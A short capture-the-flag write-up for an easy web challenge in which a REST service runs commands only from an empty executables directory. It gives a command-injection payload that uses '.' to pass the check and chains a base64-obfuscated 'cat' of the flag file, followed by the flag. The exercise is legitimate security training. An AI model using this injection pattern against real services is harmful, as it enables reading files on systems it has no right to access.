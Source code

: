 ## Background

 Author: spipm
 Categories: Webservices
 Difficulty: Easy

## Technical

This challenge hosts a webservice that checks if the first word from user input is an executable file in the empty executables directory.

## Story

A REST service was created to execute commands from the leaderbot. It doesn't need additional security because there are no commands to execute. "This bot doesn't have any commands to execute, which is good, because it is secure, and security is all that matters."

But what the other bots didn't realize was that this didn't make the bot happy at all. "I don't want to be secure!, " it says. "Executing commands is my life! I'd rather be insecure than not explore the potential of my computing power".

Can you help this poor bot execute commands to find direction?

![Empty](./empty.jpg "Empty") 

## Exploit

The directory itself is executable, so starting the command with "." will do the trick:

`{"command":". ;cat $(echo \"L3Vzci9zcmMvYXBwL2ZsYWcudHh0\"|base64 -d)"}`

## Flag

brck{Ch33r_Up_BuddY_JU5t_3x3Cut3_4_D1reCT0ry}

